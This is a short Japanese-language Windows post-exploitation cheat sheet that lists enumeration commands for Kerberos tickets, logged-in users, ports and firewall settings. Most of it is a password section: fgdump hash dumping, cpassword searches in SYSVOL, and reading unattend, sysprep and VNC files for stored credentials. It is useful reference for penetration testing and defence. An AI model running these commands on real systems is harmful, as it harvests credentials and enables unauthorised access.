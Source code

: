 #### Kerberos tickets

````
klist
klist sessions
````

#### ログインユーザ

```bash
qwinsta
```

#### 開いているポート

```
netstat -aton
```

#### ファイアーウォール

```bash
netsh firewall show state
netsh firewall show config
```

#### パスワード

```cmd
#Password hashes
/usr/share/windows-binaries/fgdump/fgdump.exe
C:\> fgdump.exe
C:\> type 127.0.0.1.pwdump

#ドメインコントローラの場合は、groups.xml内の "cpassword "を検索します。
findstr /S /I cpassword \\<FQDN>\sysvol\<FQDN>\policies\*.xml

#ファイル名に「password」を含むファイルを検索します。
dir /s *password*

#ファイル内の「パスワード」を検索します。
findstr /si password *.ini *.xml *.txt
findstr /spin "password" *.*

#いくつかの共通ファイル。
type c:\sysprep.inf
type c:\sysprep\sysprep.xml
type c:\unattend.xml
type %WINDIR%\Panther\Unattend\Unattended.xml
type %WINDIR%\Panther\Unattended.xml
dir /s *sysprep.inf *sysprep.xml *unattended.xml *unattend.xml *unattend.txt 2>nul

dir c:*vnc.ini /s /b
dir c:*ultravnc.ini /s /b
dir c:\ /s /b | findstr /si *vnc.ini
```
